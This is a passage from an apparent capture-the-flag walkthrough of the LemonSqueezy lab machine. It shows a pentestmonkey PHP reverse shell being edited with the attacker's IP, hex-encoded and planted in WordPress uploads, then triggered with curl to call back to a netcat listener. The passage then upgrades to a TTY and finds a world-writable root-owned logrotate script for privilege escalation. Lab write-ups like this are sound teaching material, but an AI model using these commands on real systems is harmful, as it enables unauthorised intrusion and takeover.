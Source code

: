 I used a pentestmonkey php reverse shell, I changed the IP addres with the IP of the attacking machine and the port, then I encoded it to hexadecimal and wrote it in the uploads directory.

```console
root@kali:~$ cp /usr/share/webshells/php/php-reverse-shell.php shell.php
root@kali:~$ sed -i 's/127.0.0.1/192.168.179.1/;s/1234/443/' shell.php 
root@kali:~$ xxd -ps shell.php | tr -d '\n' | xclip -sel c
```

![](/assets/images/lemonsqueezy/screenshot-11.png)


Then we need to set up a netcat listener and run the following curl instruction.

```console
root@kali:~$ curl -s http://lemonsqueezy/wordpress/wp-content/uploads/z.php
```

As we see I got a shell and upgraded it to a TTY shell.

```console
root@kali:~$ nc -vlnp 443                                               
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.158] 41036
Linux lemonsqueezy 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3 (2017-12-03) x86_64 GNU/Linux
 09:57:59 up  2:32,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@lemonsqueezy:/$
```

Listing the writable files, I found the logrotate python script, this removes the tmp directory, it also has write permissions for all users, I can use this script to elevate our privileges.

```console
www-data@lemonsqueezy:/$ find / -writable -type f 2>/dev/null | egrep -v 'proc|sys'
<-writable -type f 2>/dev/null | egrep -v 'proc|sys'
/var/lib/wordpress/wp-content/index.php
/etc/logrotate.d/logrotate
www-data@lemonsqueezy:/$ cat /etc/logrotate.d/logrotate
cat /etc/logrotate.d/logrotate
#!/usr/bin/env python
import os
import sys
try:
   os.system('rm -r /tmp/* ')
except:
    sys.exit()
www-data@lemonsqueezy:/$ ls -la /etc/logrotate.d/logrotate
ls -la /etc/logrotate.d/logrotate
-rwxrwxrwx 1 root root 101 Apr 26  2020 /etc/logrotate.d/logrotate
```

